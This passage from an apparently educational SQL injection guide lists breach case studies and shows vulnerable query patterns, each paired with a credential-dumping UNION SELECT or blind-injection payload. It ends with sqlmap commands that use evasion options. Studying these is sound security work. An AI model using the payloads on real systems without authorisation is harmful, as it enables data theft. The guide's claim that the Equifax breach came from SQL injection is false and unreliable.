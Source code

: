 ### 2. 🏢 Enterprise Breaches

#### Equifax Data Breach (2017)
- **Cause**: SQL injection in web application
- **Impact**: 147 million records compromised
- **Lesson**: Proper input validation is critical

#### TalkTalk Hack (2015)
- **Cause**: Basic SQL injection vulnerability
- **Impact**: 4 million customer records stolen
- **Lesson**: Even simple SQL injection can have massive impact

### 3. 📊 Common Patterns in Bug Bounty

#### Search Functionality
```sql
-- Common vulnerable pattern
SELECT * FROM products WHERE name LIKE '%$search_term%'

-- Exploitation
search_term = test' UNION SELECT username,password FROM users--
```

#### Sorting Parameters
```sql
-- Vulnerable ORDER BY clause
SELECT * FROM users ORDER BY $sort_column $sort_direction

-- Exploitation  
sort_column = (CASE WHEN (SELECT COUNT(*) FROM admin_users)>0 THEN name ELSE id END)
```

#### Pagination
```sql
-- Vulnerable LIMIT clause
SELECT * FROM posts LIMIT $offset, $limit

-- Exploitation
offset = 0 UNION SELECT username,password FROM users LIMIT 1,1--
```

## 🔧 Tools and Resources

### 🛠️ Essential Tools

#### SQLMap
```bash
# Installation
pip install sqlmap

# Basic usage
sqlmap -u "http://example.com/page.php?id=1"

# Advanced options
sqlmap -u "http://example.com/page.php?id=1" \
       --batch \
       --random-agent \
       --tamper=space2comment \
       --technique=BEUST \
       --threads=10
```
